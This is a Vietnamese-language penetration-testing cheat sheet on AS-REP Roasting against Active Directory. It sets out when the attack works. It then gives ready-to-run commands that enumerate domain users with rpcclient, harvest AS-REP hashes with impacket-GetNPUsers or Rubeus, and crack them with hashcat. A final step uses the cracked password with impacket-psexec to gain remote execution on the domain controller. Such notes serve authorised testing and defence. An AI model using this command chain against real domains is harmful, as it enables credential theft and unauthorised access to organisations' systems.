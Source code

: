 # AS-REP Roasting

## Điểm chính khai thác

* **Lỗ hổng**: Tài khoản người dùng có mật khẩu yếu.
* **Tác động**: Lấy hash AS-REP, crack offline để lấy mật khẩu cleartext.
* **Điều kiện khai thác:**&#x20;
  * Tài khoản mục tiêu bật **`Do not require kerberos preauthentication`.**
  * Tấn công từ xa
    * Tìm được 1 tài khoản hợp lệ để có thể liệt kê người dùng trong domain.
    * Cổng UDP 88 (Kerberos) mở.

## Kiểm tra lỗ hổng

### Liệt kê tài khoản

Thu thập danh sách tài khoản để tấn công:

```
rpcclient -U "" <dc_ip> -N -c "enumdomusers"
```

## Tấn công từ xa

### Thu thập hash AS-REP

Gửi AS-REQ để lấy hash AS-REP của tài khoản không yêu cầu preauthentication:

{% code overflow="wrap" %}

```
impacket-GetNPUsers -dc-ip <dc_ip> <domain>/<user> -no-pass -outputfile as.txt
```

{% endcode %}

### Crack hash

Crack hash AS-REP để lấy mật khẩu cleartext:

```
hashcat -m 18200 as.txt <wordlist>
```

## Tấn công nội bộ

### Thu thập hash AS-REP

Lấy hash AS-REP từ máy Windows trong domain:

```
Rubeus.exe asreproast /format:hashcat /outfile:as.txt
```

### Crack hash

Crack hash AS-REP để lấy mật khẩu cleartext:

```
hashcat -m 18200 as.txt <wordlist>
```

## Kiểm tra kết quả

### Lệnh

Kiểm tra mật khẩu cleartext sau khi crack:

```
hashcat -m 18200 <hash_file> as.txt --show
```

### Xác nhận

Dùng mật khẩu lấy được để truy cập hệ thống mục tiêu:

```
impacket-psexec <domain>/<user>:<pass>@<dc_ip>
```
